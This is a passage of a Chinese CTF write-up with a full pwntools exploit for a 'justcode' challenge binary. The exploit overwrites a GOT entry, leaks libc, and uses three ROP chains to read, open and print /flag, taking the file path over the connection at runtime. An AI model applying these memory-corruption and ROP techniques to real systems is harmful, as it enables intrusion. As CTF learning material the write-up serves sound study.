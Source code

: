 > 值得一提的是：其中第二次rop的是调用read读取flag路径，也就是rop执行过程中会去和攻击者进行交互，以获取之后的执行相关数据或者代码，这种思路主要是和煜博学到的：[Favourite Architecture II - Startctf 2021](https://github.com/BrieflyX/ctf-pwns/tree/master/escape/favourite_architecture)。此法中，数据和shellcode代码分离，其优点是非常明显的，数据可变，而且shellcode不用进行复杂的数据处理。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')

myelf = ELF("./justcode")
libc = ELF("./libc-2.23.so")
io = process(myelf.path,env={"LD_PRELOAD":libc.path})
#io = remote("183.129.189.60",10041)
uu64    = lambda data   :u64(data.ljust(8, b'\0'))
sla     = lambda delim,data         :  io.sendlineafter(delim,data)
sa      = lambda delim,data         :  io.sendafter(delim,data)

stack_chk_fail_got  = 0x602038
pop_rdi_ret         = 0x400ea3
puts_plt            = 0x400940
puts_got            = 0x602028
overflow            = 0x400C47

#gdb.attach(io,"b * 0x400ea3")

io.sendlineafter("code","1\n2\n1\n1")
io.sendlineafter("name",'a'*12+p32(stack_chk_fail_got))
io.sendlineafter("id"  ,str(pop_rdi_ret))
io.sendlineafter("info","a")

# frist rop: leak libc
rop = flat([pop_rdi_ret,puts_got,puts_plt,overflow])
io.sendlineafter("name",rop.ljust(137,'a'))

io.recvline()
io.recvline()
libc.address = uu64(io.recv(6))-0x6f6a0
log.success(hex(libc.address))

pop_rdx_ret = libc.address + 0x1b92
pop_rsi_ret = libc.address + 0x202f8

# sencond rop: input flag path and open it into fd 3
rop = flat([
    pop_rdi_ret,0,       pop_rsi_ret,0x602168,pop_rdx_ret,8,libc.symbols['read'],
    pop_rdi_ret,0x602168,pop_rsi_ret,0,                     libc.symbols['open'],
    overflow
    ])

io.sendlineafter("name",rop.ljust(137,'a'))
sleep(0.1)
io.sendline("/flag\x00")

# third rop: read and write flag
rop = flat([
    pop_rdi_ret,3,       pop_rsi_ret,0x602178,pop_rdx_ret,100,libc.symbols['read'],
    pop_rdi_ret,1,       pop_rsi_ret,0x602178,pop_rdx_ret,100,libc.symbols['write'],
    overflow
    ])
io.sendlineafter("name",rop.ljust(137,'a'))
io.interactive()
```

